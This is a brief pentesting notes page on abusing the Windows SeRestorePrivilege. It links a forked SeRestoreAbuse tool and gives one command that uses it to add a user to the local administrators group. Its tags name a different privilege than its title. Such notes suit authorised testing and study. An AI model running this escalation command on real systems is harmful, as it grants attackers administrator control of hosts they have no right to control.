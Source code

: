 ```yaml
---
title: SeRestorePrivilege
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - windows
  - privilege
  - SeManageVolumePrivilege
---
```

# SeRestorePrivilege


SeRestorePrivilege is a dangerous permission. [Forked the repo](https://github.com/amandaguglieri/Privescalation/tree/main/tools/SeRestoreAbuse) that exploit this privilege:

```bash
.\SeRestoreAbuse-x64.exe "cmd /c net localgroup administrators enox /add"
```


